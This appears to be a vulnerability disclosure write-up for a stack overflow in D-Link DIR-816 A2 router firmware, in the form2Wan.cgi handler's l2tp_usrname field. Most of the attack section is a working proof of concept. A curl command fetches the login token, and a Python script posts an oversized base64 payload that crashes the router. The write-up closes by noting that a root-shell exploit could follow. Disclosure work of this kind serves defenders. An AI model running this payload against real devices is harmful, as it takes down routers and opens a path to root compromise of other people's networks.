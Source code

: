 # D-link DIR-816 A2_v1.10CNB04.img Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.dlink.com/

- Firmware download address ： http://tsd.dlink.com.tw/GPL.asp

## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/dir816/img/vuln2.png)

The picture above shows the latest firmware for this version

## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/dlink/Dir816/form2Wan_cgi/img/vuln1.png)

Vulnerability occurs in /goform/form2Wan.cgi, When wantype is 3, l2tp_usrname will be decrypted by base64, and the result will be stored in v94, which does not check the size of l2tp_usrname, resulting in stack overflow

## Poc

The first thing you need to do is to get the tokenid
```
curl http://192.168.0.1/dir_login.asp | grep tokenid
```

Then run the following poc

```python
import requests
import base64

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

tokenid = '1804289383'

url = 'http://192.168.0.1/goform/form2Wan.cgi'

payload = base64.b64encode(b'a' * 10000)

data = {
    'tokenid' : tokenid,
    'wantype' : '3',
    'l2tp_usrname' : payload,
    'l2tp_psword' : payload
}
response = requests.post(url, data=data)
response.encoding="utf-8"
info = response.text
li(url)
print(info)
```

You can see the router crash, and finally you can write an exp to get a root shell
